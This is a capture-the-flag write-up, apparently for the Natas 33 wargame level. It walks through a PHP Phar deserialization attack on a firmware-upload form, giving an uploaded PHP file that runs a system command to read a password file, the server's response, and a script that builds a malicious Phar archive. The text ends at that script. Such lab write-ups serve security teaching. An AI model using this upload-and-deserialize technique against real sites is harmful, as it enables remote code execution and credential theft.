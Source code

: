 ```php
                session_start();
                if(array_key_exists("filename", $_POST) and array_key_exists("uploadedfile",$_FILES)) {
                    new Executor();
                }
            ?>
            <form enctype="multipart/form-data" action="index.php" method="POST">
                <input type="hidden" name="MAX_FILE_SIZE" value="4096" />
                <input type="hidden" name="filename" value="<? echo session_id(); ?>" />
                Upload Firmware Update:<br/>
                <input name="uploadedfile" type="file" /><br />
                <input type="submit" value="Upload File" />
            </form>

            <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
        </div>
    </body>
```

In this challenge, we need to upload file RCE, but md5 checksum must be matched the value `adeafbadbabec0dedabada55ba55d00d`

This is PHP Phar unserialization vulnerability, we can inject object in the metadata is loaded into the application's scope.

First, we upload file `getpwd.php` to read the password of natas34:

```php
<?php //getpwd.php
echo system('cat /etc/natas_webpass/natas34');
>
```

Note that we need change the filename when upload to `getpwd.php`, default is PHPSESSID. We get the response:

```
The update has been uploaded to: /natas33/upload/getpwd.php
Firmware upgrad initialised.
/natas33/uploadFailur! MD5sum mismatch!
Upload Firmware Update:
```

Then, we create `make_phar.php` to get Phar serialization archive, look like that:

```php
<?php //make_phar.php
class Executor {
    private $filename = "getpwd.php"; 
    private $signature = True;
    private $init = false;
}
$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->addFromString("test.txt", 'test');
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$o = new Executor();
$phar->setMetadata($o);
$phar->stopBuffering();
?>
```
